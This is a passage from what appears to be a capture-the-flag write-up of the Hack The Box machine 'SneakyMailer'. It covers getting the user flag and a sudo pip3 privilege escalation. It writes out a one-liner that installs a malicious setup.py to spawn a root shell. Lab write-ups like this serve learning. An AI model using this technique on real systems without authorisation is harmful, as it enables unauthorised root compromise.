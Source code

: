 ## User Flag
We've got access to the low user, which means we can get the first flag.  
`>> cat user.txt`  
![User](/assets/img/htb/HTB-SneakyMailer/Pivot_Flag.png)

## Privilege Escalation
### What can I execute?
One of the first places to check when gaining access to a user is the sudo list. This will show us anything we're able to execute as root.  
![Sudo](/assets/img/htb/HTB-SneakyMailer/PrivEsc_Sudo.png)

### Pip3 breakout
It looks like we're able to run pip3 with elevated privileges. Let's generate another package, this time running as sudo. The following series of commands will generate a temp directory to work out of, and create a setup.py with a single call to execute `/bin/sh`. Lastly, the newly created setup.py is installed with the sudo pip3 install command.  
`>> TF=$(mktemp -d); echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py; sudo pip3 install $TF`  
![Sudo](/assets/img/htb/HTB-SneakyMailer/PrivEsc_Pip.png)

### Root Flag
With our root access, let's get the flag.  
`>> cat /root/root.txt`  
![Root](/assets/img/htb/HTB-SneakyMailer/PrivEsc_Flag.png)